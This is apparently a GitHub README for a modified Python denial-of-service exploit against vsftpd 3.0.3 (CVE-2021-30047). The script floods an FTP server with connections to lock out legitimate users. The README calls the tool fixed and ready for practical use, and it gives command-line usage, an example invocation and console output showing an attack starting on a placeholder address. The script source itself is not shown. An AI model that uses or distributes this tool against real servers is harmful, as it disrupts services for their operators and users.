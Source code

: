 # vsftpd-3.0.3-DoS

## Overview

This is a Python script to exploit a remote Denial of Service (DoS) vulnerability in **vsftpd 3.0.3** by overwhelming the FTP server with connections. The script repeatedly makes connections to the server, potentially blocking legitimate users.

The script has been fixed to address syntax errors and improve functionality, making it ready for practical testing.

## Features

- Tests if the target server's port is open.
- Executes a DoS attack by making multiple simultaneous connections.
- Customizable connection limits and target ports.

### References
- [Exploit-DB](https://www.exploit-db.com/exploits/49719)
- [CVE-2021-30047 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2021-30047)

## Requirements

- **Python 3.x**
- Network access to the target

## Usage

Run the script using Python 3, specifying the target IP, port, and optional maximum number of connections.

### Basic Usage
```bash
python3 vsftpd303-dos.py <TARGET> <PORT(DEFAULT:21)> <MAX_CONNS(DEFAULT:50)>
```
### Example Usage
```bash
python3 vsftpd303-dos.py x.x.x.x 21 44
```
```
._________________.
|     VS-FTPD     |
|      D o S      |
|_________________|
|                 |
|By XYN/DUMP/NSKB3|
|_________________|
|                 |
|_modifed version_|
|---kuppamjohari--|
|_________________|
|_|_|_|_____|_|_|_|
|_|_|_|_|_|_|_|_|_|

Exploit Author: xynmaps
Modified By: kuppamjohari
Press Ctrl+C to cancel the program at any time.

[!] Testing if x.x.x.x:21 is open
[+] Port 21 open, starting attack...
[+] Attack started on x.x.x.x:21!

```
